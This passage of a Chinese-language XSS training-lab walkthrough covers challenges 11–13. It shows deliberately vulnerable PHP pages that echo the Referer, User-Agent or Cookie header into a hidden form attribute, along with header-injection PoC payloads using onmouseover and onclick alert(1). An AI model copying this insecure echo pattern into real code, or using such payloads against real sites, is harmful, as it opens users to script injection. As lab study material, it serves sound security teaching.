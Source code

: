 ````shell
//修改请求头并修改一下PoC代码
`Referer: " onmouseover=alert(1) type="text"`
`Referer: " onclick="alert(1) type="text"`
````

![image-20200828161500548](/images/XSS/image-20200828161500548.png)

`Result`

![image-20200828161534239](/images/XSS/image-20200828161534239.png)

##### 挑战十二

```javascript
//不再是REFERER请求头，现在更换了User-agent
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

````shell
//修改User-agent插入PoC
`User-Agent: " onmouseover=alert(1) type="text"`
`User-Agent: " onclick="alert(1) type="text"`
````

![image-20200828162042253](/images/XSS/image-20200828162042253.png)

`Result`

![image-20200828162112961](/images/XSS/image-20200828162112961.png)

##### 挑战十三

```php+HTML
//修改请求头Cookie来测试
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```